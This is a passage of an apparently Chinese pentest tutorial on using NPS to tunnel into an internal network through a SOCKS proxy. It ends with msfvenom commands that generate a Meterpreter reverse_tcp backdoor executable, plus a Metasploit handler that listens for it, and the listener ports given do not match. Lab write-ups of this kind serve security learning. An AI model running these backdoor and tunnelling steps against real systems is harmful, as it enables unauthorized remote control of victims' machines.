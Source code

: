 <hr/>
2）新建一个客户端
会生成唯一验证密钥，通过密钥将NPS的服务端和客户端连接起来


得到ID、唯一验证密钥<img alt="" height="719" src="https://img-blog.csdnimg.cn/7628e3551a734c779b5d728a51e138b6.png" width="1002"/>
<hr/>
3）新增SOCKS代理
填上id、端口
服务端端口8024不能填，因为8024是连接客户端与服务端
我们需要重新写一个端口，访问服务端的这个端口，从而访问到内网




---


> 
<h4>2、客户端上线</h4>
1）连接服务端，上线
<pre><code>Linux：./npc -server=ip:port -vkey=后台服务端生成的验证密钥
Windows：npc.exe -server=ip:port -vkey=后台服务端生成的验证密钥</code></pre>

 再次查看服务端后台
已经上线了，实验基本上完成了


2）访问内网主机
使用浏览器设置代理，然后访问内网主机



> 
<h4> 3、msf后门</h4>
生成后门：
<pre><code>msfvenom -p windows/meterpreter/reverse_tcp lhost=…… lport=3333 -f exe -o nps.exe
（注意是生成win、还是Linux的监听器）</code></pre>
（注：lhos：服务器ip、lport：服务器端口）
监听后门：
<pre><code>use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 4444
run
（注意是win、还是Linux的监听器）</code></pre>
（注：这个监听端口lport，与本地转发端口一致）


